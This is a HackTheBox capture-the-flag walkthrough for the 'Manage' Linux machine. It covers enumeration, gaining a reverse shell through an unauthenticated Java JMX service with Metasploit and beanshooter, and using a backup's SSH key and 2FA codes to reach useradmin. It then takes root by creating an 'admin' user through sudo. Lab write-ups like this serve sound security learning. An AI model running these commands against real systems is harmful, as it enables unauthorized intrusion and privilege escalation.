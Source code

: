 # [HackTheBox - Manage](https://app.hackthebox.com/machines/Manage)

![64ef1c026f85600acf697abb162d4ec2.png](/resources/64ef1c026f85600acf697abb162d4ec2.png)

## Table of Contents

- [Abstract](#abstract)
- [Enumeration](#enumeration)
- [Initial Access via Java JMX interface insecure configuration](#initial-access-via-java-jmx-interface-insecure-configuration)
- [Privilege Escalation to useradmin via backup file](#privilege-escalation-to-useradmin-via-backup-file)
- [Privilege Escalation via SUDO by creating an admin user](#privilege-escalation-via-sudo-by-creating-an-admin-user)

***
## Abstract
Manage is a vulnlab machine imported to HackTheBox as an Easy Linux box, I started with network enumeration with nmap, revealing this machine is a running SSH on port 22, Java JMI on port 2222 and Apache Tomcat on port 8080.

The enumeration phase reveals that the MBean in JMX is not require authentication which I leveraged that by created and registered a malicious MBean that embeds executable Java bytecode to run and eventually got me foothold on the machine as tomcat user. 

After gaining a foothold, I discovered backup file of useradmin user which contains all files on the home directory of this user including SSH private key and 2FA backup code which I used that to connect to the box again as useradmin.

The useradmin user can create any user on the box with sudo and after discovered that the box does not have admin group which I created admin user that will automatically create admin group and become root by using user and root the box.

## Enumeration

I start my initial nmap scanning with `-sCV` flag right away since I don't expect much port to be running on Linux box which reveals SSH running on port 22, Java JMI Service running on port 2222 and Apache Tomcat running on port 8080.

![898e924e370738a7b08b328e4362b577.png](/resources/898e924e370738a7b08b328e4362b577.png)

I start by checking tomcat first and nothing too interesting here beside the version that already obtained from the nmap result.

![9079d864b64c497525ffc813e92709dd.png](/resources/9079d864b64c497525ffc813e92709dd.png)

I try to see if I can login with tomcat default credential but look like it is restricted so I need to find another way in.

![951941acbd7999ab7f175d6d1a3d4cc9.png](/resources/951941acbd7999ab7f175d6d1a3d4cc9.png)

I will use [beanshooter](https://github.com/qtc-de/beanshooter) which is a JMX enumeration and attacking tool to identify common vulnerabilities on this JMX instance and I discover that Remote Mbean server on running on this box does not require authentication and discovered 2 tomcats here.

```
java -jar beanshooter-4.1.0-jar-with-dependencies.jar enum manage.vl 2222
```
![7e8fd2b9af3467bb4eee3b7c2c6967c7.png](/resources/7e8fd2b9af3467bb4eee3b7c2c6967c7.png)

![7be246a6b27436163ea47a81f1fa5faf.png](/resources/7be246a6b27436163ea47a81f1fa5faf.png)

## Initial Access via Java JMX interface insecure configuration

Since I can not login to tomcat then I'll take advantage of the misconfiguration of MBean server that do not required authentication to gain initial access by using "java_jmx_server" module in metasploit framework with will automatically setup JAR reverse shell payload and serve them to trigger it inside JVM process which will trigger a meterpreter reverse shell back to me as seen in the image below

```
msfconsole -q
use exploit/multi/misc/java_jmx_server
set rhost 10.129.234.57
set rport 2222
set lhost tun0
set lport 443
set srvport 5555
run
```
![e41a1f3f46f786361f16854dbb00bca2.png](/resources/e41a1f3f46f786361f16854dbb00bca2.png)

We can also use beanshooter to get the foothold as well.

```
java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard manage.vl 2222 tonka
java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka shell manage.vl 2222
```
![b6ae6244c970924d3446b8196b5df3db.png](/resources/b6ae6244c970924d3446b8196b5df3db.png)

After gaining a foothold, I spawn a new shell and use python to spawn another pty shell and now I should have almost functionaly interactive shell to use on this box

```
shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![e695de5f47ee61f63e4bc078c27d9c9c.png](/resources/e695de5f47ee61f63e4bc078c27d9c9c.png)

Then I read the `/etc/passwd` file to find out how many users with uid >= 1000 on this box and I can already see 3 of them including tomcat user and useradmin. notably the useradmin will likely to be the one that will be used to obtain root shell as its name imply.

![69e360cbc9e042bbd20b8a07c9c028c0.png](/resources/69e360cbc9e042bbd20b8a07c9c028c0.png)

The user flag is located on the home directory of tomcat user here.

![45b616f96b9228faaf0c30bca88b2715.png](/resources/45b616f96b9228faaf0c30bca88b2715.png)

## Privilege Escalation to useradmin via backup file

After exploring useradmin's home directory which I suspect to be the way to become root, I discover "backups" directory and ".google_authenticator" file which indicates that there might be 2FA here and it could possibly be the 2FA when connect to SSH

![81e9c7d0742af8641b528dff9f7e5bf0.png](/resources/81e9c7d0742af8641b528dff9f7e5bf0.png)

There is a compressed file inside "backups" folder that can be downloaded so I download it. 

```
exit
cd /home/useradmin/backups
download backup.tar.gz
```
![924d42d28c5028428c1e16f2b0c28d24.png](/resources/924d42d28c5028428c1e16f2b0c28d24.png)

After extracting the file, I can see that it conains all files from useradmin's home directory so now I will use SSH private key to connect to the box as useradmin.

```
tar -zxvf backup.tar.gz
```
![7c7b25de83b0693e81830e125f827990.png](/resources/7c7b25de83b0693e81830e125f827990.png)

SSH private key already have correct permission so I try to connect to the box again as useradmin and as expected. it asks me for Verification code.

![371d1af6cefbd718a4f1124eca9c9094.png](/resources/371d1af6cefbd718a4f1124eca9c9094.png)

I check the ".google_authenticator" file which reveal the verification code for the 2nd verification step so I will grab one of them to authenticate to the box again.

![3f65c2942ee92413e8be0c37e034459e.png](/resources/3f65c2942ee92413e8be0c37e034459e.png)

With the verification code and ssh private key from backup file, I successfully leverage myself to useradmin on this box. 

```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i id_ed25519 useradmin@manage.vl
```
![34c2b4690aa53839ba0cb841115688da.png](/resources/34c2b4690aa53839ba0cb841115688da.png)

## Privilege Escalation via SUDO by creating an admin user

First thing I check after obtain this user session is to check special privilege via SUDO and I discover that this user can create any user with sudo without a password but is that it?

```
sudo -l
```
![2ea0d9cff887df0121d25315a5b08343.png](/resources/2ea0d9cff887df0121d25315a5b08343.png)

After research for a bit. I found that there is no "admin" group on this machine and the Ubuntu's default sudo configuration in `/etc/sudoers` file will grant any member of admin group with admin privilege and can use SUDO to do anything. so what's the plan here?

Since this group did not exist on the system, creating a new user under the name of "admin" will also create admin group and thats mean I can basically create a new root user on this box.

![1a72044c335f93da544240f419dfcb65.png](/resources/1a72044c335f93da544240f419dfcb65.png)

So I create "admin" user with sudo which will also create admin group and this user will also be added to this group as expect so I switch useradmin to admin user and now I can become root with SUDO.

```
sudo /usr/sbin/adduser admin
su admin
```
![201af2c935806ea0f21ffc6f7a56f6a0.png](/resources/201af2c935806ea0f21ffc6f7a56f6a0.png)

So I switch admin to root with sudo and loot the root flag to root the box! 

```
sudo su
```
![d5c826b113b2f6203c1a6be2af89b5d9.png](/resources/d5c826b113b2f6203c1a6be2af89b5d9.png)

As now  I am root user, I check the `/etc/sudoers` file and we can see that with this configuration allows any user in admin group to basically have root privilege on this box just like user in sudo group/

On some Ubuntu installations the admin group is still configured to act like the sudo group (legacy/backwards-compatibility), whereas modern Ubuntu defaults to using the sudo group. This means creating a user in admin could immediately grant that user administrative rights if a %admin rule exists in sudoers..


![3d3cd48ea1015edfa1b8a1abc3b6d67d.png](/resources/3d3cd48ea1015edfa1b8a1abc3b6d67d.png)

![189ba9dc018522a55835044b82144ce5.png](/resources/189ba9dc018522a55835044b82144ce5.png)
https://labs.hackthebox.com/achievement/machine/1438364/687
***